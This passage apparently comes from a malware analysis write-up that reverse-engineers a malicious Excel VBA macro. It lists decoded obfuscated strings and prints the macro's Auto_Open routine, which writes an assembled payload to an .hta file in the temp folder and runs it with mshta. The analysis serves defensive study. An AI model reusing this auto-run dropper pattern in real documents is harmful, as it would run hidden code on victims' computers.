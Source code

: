 ```
|Hex String|'\x16q\x16\x80'     |16711680                                     |
|Hex String|'\xbf\xf2p\xcf'     |BFF270CF                                     |
|Hex String|'O\x12\x00vN\xde'   |4F1200764EDE                                 |
|Hex String|'\x0c\x82*\xf2'     |0C822AF2                                     |
|Hex String|'\xff\x97\x1f\x81<r'|FF971F813C72                                 |
|Base64    |'$\xbak\xae\x91k'   |JLprrpFr                                     |
|String    |                    |                                             |
|Base64    |'Q\x97\\Q\x07\x89'  |UZdcUQeJ                                     |
|String    |                    |                                             |
|VBA string|'\x00'              |Chr(0)                                       |
|VBA string|'$\xbak\xae\x91k'   |Goto ("JLprrpFr")                            |
|VBA string|%temp%\LwTHLrGh.hta |Environ("temp") & "\LwTHLrGh.hta"            |
|VBA string|mshta               |"msh" & "ta "                                |
+----------+--------------------+---------------------------------------------+
```

At this point there are several tactics:

- rework the VBA and understand its logic?
- find out the IO and trace the calls in Excel / LibreOffice?
- rewrite the scripts in another language and run it?

I'll start with reading the VBA macro to understand the overall logic, and then
reproduce the functionality.

## The macro's logic

The `Auto_Open` function is at the root of the process:

```shell
Sub Auto_Open()
    Dim fHdswUyK, GgyYKuJh
    Application.Goto ("JLprrpFr")
    GgyYKuJh = Environ("temp") & "\LwTHLrGh.hta"
    
    Open GgyYKuJh For Output As #1
    Write #1, hdYJNJmt(ActiveSheet.Shapes(2).AlternativeText & UZdcUQeJ.yTJtzjKX & Selection)
    Close #1
    
    fHdswUyK = "msh" & "ta " & GgyYKuJh
    x = Shell(fHdswUyK, 1)
End Sub
```

It performs the following operations:

- select the cell "JLprrpFr", located in K2: `Application.Goto ("JLprrpFr")`
- select the output path, in the temp directory: `GgyYKuJh = Environ("temp") & "\LwTHLrGh.hta"`
- concatenate 3 strings:
  - `ActiveSheet.Shapes(2).AlternativeText`, the description / alt text of
    the Excel logo in the worksheet 
  - `UZdcUQeJ.yTJtzjKX` is a glocal string variable
  - the content of the selected cell, "JLprrpFr"
- `hdYJNJmt` somehow transforms the whole string into a meaningful format
- its output is then written to the `.hta` file
- execute the file
